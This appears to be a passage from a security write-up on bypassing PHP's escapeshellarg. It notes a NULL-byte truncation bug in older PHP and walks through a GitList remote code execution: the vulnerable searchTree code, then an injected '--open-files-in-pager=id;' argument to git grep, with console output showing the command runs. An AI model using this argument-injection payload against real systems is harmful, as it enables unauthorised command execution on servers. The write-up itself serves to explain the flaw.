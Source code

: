 6\. [PHP < 5.6.18](https://bugs.php.net/bug.php?id=71039)

The functions defined in `ext/standard/exec.c` which work with strings (`escapeshellcmd`, `eschapeshellarg`, `shell_exec`), all ignore the length of the PHP string, and work with NULL termination instead.

```php
echo escapeshellarg("hello\0world");
=>
hello
```


# GitList RCE Exploit

File: [src/Git/Repository.php](https://github.com/klaussilveira/gitlist/commit/87b8c26b023c3fc37f0796b14bb13710f397b322)

```
public function searchTree($query, $branch)
{
    if (empty($query)) {
        return null;
    }

    $query = escapeshellarg($query);

    try {
        $results = $this->getClient()->run($this, "grep -i --line-number {$query} $branch");
    } catch (\RuntimeException $e) {
        return false;
    }
}
```

Simplified:

```
$query = 'sth';
system('git grep -i --line-number '.escapeshellarg($query).' *');
```

When we check [git grep documentation](https://git-scm.com/docs/git-grep):

```
--open-files-in-pager[=<pager>]
Open the matching files in the pager (not the output of grep). If the pager happens to be "less" or "vi", and the user specified only one pattern, the first file is positioned at the first match automatically.
```

So basically `--open-files-in-pager` works like `-exec` in `find.`

```
$query = '--open-files-in-pager=id;';
system('git grep -i --line-number '.escapeshellarg($query).' *');
```

When we put this to the console:

```
$ git grep -i --line-number '--open-files-in-pager=id;' *
uid=1000(user) gid=1000(user) grupy=1000(user),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)
id;: 1: id;: README.md: not found
```

